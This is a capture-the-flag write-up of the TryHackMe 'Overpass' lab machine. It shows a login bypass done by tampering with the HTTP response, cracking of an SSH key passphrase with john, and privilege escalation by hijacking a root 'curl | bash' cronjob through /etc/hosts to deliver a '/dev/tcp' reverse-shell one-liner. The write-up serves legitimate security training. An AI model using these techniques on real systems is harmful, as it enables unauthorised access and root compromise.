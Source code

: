 ```yaml
---
title: TryHackMe | Overpass
author: Zeropio
date: 2022-10-01
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/overpass
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
```

We can fuzz the web:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.223.211/FUZZ'

	css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
	admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 66ms]
	img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
	downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
	aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
	                        [Status: 200, Size: 2431, Words: 582, Lines: 53, Duration: 68ms]
```

In the **/downloads** page we found some binaries we can inspect. We found an **/admin** with a login. In the source code we can find a **/login.js** with some vulnerable code:

```javascript
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

---

# Foothold

Intercept the request of login in Burp. Now, right click and select `Do intercept > Response to this request`. Forward the petition and modify the response as from:

```html
HTTP/1.1 200 OK
Date: Fri, 30 Sep 2022 21:50:12 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close

Incorrect credentials
```

To:

```html
HTTP/1.1 302 FOUND
Date: Fri, 30 Sep 2022 21:50:12 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close
location: /admin
```

Forward the request and we should get an RSA. When we try logging we get the following error:

```console
zero@pio$ ssh james@10.10.223.211 -i rsa
	Enter passphrase for key 'rsa':
```

We can use `john` to get the password:

```console
zero@pio$ ssh2john rsa
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt key

	james13          (rsa)
```

---

# Privilege Escalation

We can see a cronjob running:

```console
zero@pio$ cat /etc/crontab

	...
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We can see the script in the **/downloads** page. We can see which files we have write access as well as cronjob:

```console
james@overpass-prod:~$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
	/etc/hosts
	/sys/kernel/security/apparmor/.remove
	/sys/kernel/security/apparmor/.replace
	/sys/kernel/security/apparmor/.load
	/sys/kernel/security/apparmor/.access
	/sys/fs/cgroup/memory/cgroup.event_control
	/proc
```

We can try modifying `/etc/hosts`{: .filepath}.  There we can see the server domain:

```console
james@overpass-prod:~$ cat /etc/hosts
	127.0.0.1 localhost
	127.0.1.1 overpass-prod
	127.0.0.1 overpass.thm
	# The following lines are desirable for IPv6 capable hosts
	::1     ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
```

Create the following directory in our machine:

```              
└── downloads
    └── src
        └── buildscript.sh
```

Add a one-liner in the **buildscript.sh**:

```bash
sh -i >& /dev/tcp/10.18.2.17/443 0>&1
```

Start a netcat (`nc -lvnp 443`) and an http server (`python3 -m http.server 80`) and we should receive our shell.